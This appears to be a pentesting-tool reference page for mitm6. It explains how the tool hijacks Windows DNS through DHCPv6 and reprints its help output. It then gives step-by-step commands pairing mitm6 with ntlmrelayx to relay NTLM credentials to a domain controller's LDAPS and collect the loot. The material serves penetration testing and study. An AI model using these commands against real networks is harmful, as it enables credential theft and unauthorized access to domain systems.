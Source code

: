 ```yaml
---
title: MITM6
categories: [Ethical Hacking Tools,Credential Access]
tags: [mitm6, credential access (TA0006), aitm, mitm, ntlmv2, kerberos ]
comments: true
---
```


## Overview

MITM6 is a pentesting tool that exploits the default configuration of Windows to take over the default DNS server. It does this by replying to DHCPv6 messages, providing victims with a link-local IPv6 address and setting the attackers host as default DNS server. As DNS server, MITM6 will selectively reply to DNS queries of the attackers choosing and redirect the victims traffic to the attacker machine instead of the legitimate server. [^1]

MITM6 is also able to conduct credential relay attacks using the IMPacket `NTLMrelayx` tool to relay NTLM credentials for authentication and the `krbrelayx` tool that allows Kerberos authenitcation relays.

MITM6 comes packaged with Kali Linux by default.

| Tool Name | Version | MITRE ATT&CK Tactic | MITRE ATT&CK Technique |
| --------- | ------- | ------------------- | ---------------------- |
| [mitm6](https://github.com/dirkjanm/mitm6) | v0.3.0 | [Credential Access](https://attack.mitre.org/tactics/TA0006/) | [Adversary-in-the-Middle](https://attack.mitre.org/techniques/T1557/) |

## MITM6 Help Page

```bash
usage: mitm6 [-h] [-i INTERFACE] [-l LOCALDOMAIN] [-4 ADDRESS] [-6 ADDRESS]
             [-m ADDRESS] [-a] [-r TARGET] [-v] [--debug] [-d DOMAIN]
             [-b DOMAIN] [-hw DOMAIN] [-hb DOMAIN] [--ignore-nofqdn]

mitm6 - pwning IPv4 via IPv6
For help or reporting issues, visit https://github.com/dirkjanm/mitm6

optional arguments:
  -h, --help            show this help message and exit
  -i INTERFACE, --interface INTERFACE
                        Interface to use (default: autodetect)
  -l LOCALDOMAIN, --localdomain LOCALDOMAIN
                        Domain name to use as DNS search domain (default: use
                        first DNS domain)
  -4 ADDRESS, --ipv4 ADDRESS
                        IPv4 address to send packets from (default:
                        autodetect)
  -6 ADDRESS, --ipv6 ADDRESS
                        IPv6 link-local address to send packets from (default:
                        autodetect)
  -m ADDRESS, --mac ADDRESS
                        Custom mac address - probably breaks stuff (default:
                        mac of selected interface)
  -a, --no-ra           Do not advertise ourselves (useful for networks which
                        detect rogue Router Advertisements)
  -r TARGET, --relay TARGET
                        Authentication relay target, will be used as fake DNS
                        server hostname to trigger Kerberos auth
  -v, --verbose         Show verbose information
  --debug               Show debug information

Filtering options:
  -d DOMAIN, --domain DOMAIN
                        Domain name to filter DNS queries on (Allowlist
                        principle, multiple can be specified.)
  -b DOMAIN, --blocklist DOMAIN, --blacklist DOMAIN
                        Domain name to filter DNS queries on (Blocklist
                        principle, multiple can be specified.)
  -hw DOMAIN, -ha DOMAIN, --host-allowlist DOMAIN, --host-whitelist DOMAIN
                        Hostname (FQDN) to filter DHCPv6 queries on (Allowlist
                        principle, multiple can be specified.)
  -hb DOMAIN, --host-blocklist DOMAIN, --host-blacklist DOMAIN
                        Hostname (FQDN) to filter DHCPv6 queries on (Blocklist
                        principle, multiple can be specified.)
  --ignore-nofqdn       Ignore DHCPv6 queries that do not contain the Fully
                        Qualified Domain Name (FQDN) option.
```
{: .nolineno }

## Instructions

### Using MITM6 to Perform a NTLM Relay Attack

1. Execute the below command on the attacker machine. Ensure that the `-i` switch is set to interface that is on the same network as the target and that `-d` is set to the local domain being targeted.

    ```bash
    sudo mitm6 -i eth0 -d darkcybe.malnet
    ```
    {: .nolineno }

2. Using the IMPacket `ntlmrelayx.py` script, set the target using the `-t` switch which in this example is set to the Domain Controller running LDAPS. `-wh` is set to name the malicious WPAD instance and `-l` to create a local file on the attacker machine in which the discovered loot will be dropped. [^2]

    ```bash
    ntlmrelayx.py -6 -t ldaps://10.10.10.10 -wh malwpad.darkcybe.malnet -l lootcrate
    ```
    {: .nolineno }

## Sources

[^1]: [Dirkjanm/mitm6 - Github](https://github.com/dirkjanm/mitm6)
[^2]: [Dirkjanm.io - The worst of both worlds: Combining NTLM Relaying and Kerberos delegation](https://dirkjanm.io/worst-of-both-worlds-ntlm-relaying-and-kerberos-delegation/)
